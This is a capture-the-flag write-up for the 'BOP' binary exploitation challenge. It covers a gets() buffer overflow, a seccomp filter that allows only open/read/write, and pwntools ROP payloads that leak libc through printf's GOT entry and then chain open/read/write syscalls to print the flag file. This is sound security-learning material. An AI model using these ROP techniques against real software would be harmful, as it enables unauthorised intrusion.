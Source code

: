 # BOP
This is write-up for BOP.

The source code of main is as follows:
```
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char v4[32]; // [rsp+0h] [rbp-20h] BYREF

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  printf("Do you bop? ");
  return gets(v4);
}
```

The last line of main calls gets to receive inputs to a buffer and returns using gets' return value.

Running checksec gives:
```    
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
And we can verify that the binary uses seccomp tools:
```
# seccomp-tools dump ./bop                                                                                   [±PIE ●]
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
 0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
 0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
 0007: 0x15 0x02 0x00 0x00000002  if (A == open) goto 0010
 0008: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0010
 0009: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0011: 0x06 0x00 0x00 0x00000000  return KILL
 ```

## Attack Plan
We can control the return address and perform ORW (Open Read Write) using ROP.
I've done ORW from [pwnable.tw](https://pwnable.tw/challenge/#2) using shellcoding but it was my first time using ROP, but the logic remains the same. It's just a matter of syntax.
## Pre-requisite
To perform ROP, we need to leak the libc base.
The GOT does not import puts, so I'll use printf.
The ROP payload to leak GOT entry of printf is as follows:
```
payload = b"A"*40 # offset
payload += p64(ret)
payload += p64(ret)
payload += p64(rdi)             # 1st parameter
payload += p64(e.got['printf'])
payload += p64(rsi)             # 2nd parameter (two pops)
payload += p64(e.got['printf'])
payload += p64(e.got['printf'])
payload += p64(e.plt['printf']) # call printf_plt
payload += p64(ret)
payload += p64(main) # return to main
```
The first two rets are to align bytes. 0 or 1 ret doesn't work (idk why).
The pop_rsi gadget I found pops to two registers, so I included two printf_got entries after pop_rsi.

## ORW
Using the leaked libc base, we can find other useful gadgets like pop_rax, pop_rdx, and syscall.

note: *make sure to find the stable syscall instruction, like read+0x10.*

We can run ROP again but now invoking ORW.
To store the contents of the file read, I'll use bss+0x800 (no special reason).

The payload is as follows:
```
"""OPEN"""
payload = b"A"*40
payload += p64(rdi) + p64(bss+0x800)
payload += p64(e.plt["gets"])
payload += p64(rdi)+p64(bss+0x800)
payload += p64(rsi) + p64(0) + p64(0)
payload += p64(rdx) + p64(0) 
payload += p64(rax) + p64(2)
payload += p64(syscall)

"""READ"""
payload += p64(rdi)+p64(3)
payload += p64(rsi)+p64(bss+0x800) + p64(0)
payload += p64(rax)+p64(0) 
payload += p64(rdx)+p64(0xff) 
payload += p64(syscall)

"""WRITE"""
payload += p64(rdi)+p64(1)
payload += p64(rsi)+p64(bss+0x800) + p64(0)
payload += p64(rax)+p64(1) 
payload += p64(rdx)+p64(0xff)
payload += p64(syscall)
```

We follow the standard [x64 syscall convention](https://syscalls64.paolostivanin.com/) to set the parameters of each component of ORW.

* set rdi to bss to store user input
* call gets
After user sends an input, it will be stored in BSS, in this case it will be "./flag.txt".
* set rdi to bss again
* set rsi (two pops) and rdx to 0
* set rax to 2
* syscall

Similar procedures are performed for Open and Write syscalls.
note: *cross compare with x64 syscall chart!*

### End
Then I send the payload along with "./flag.txt" and receive the output to get the flag.

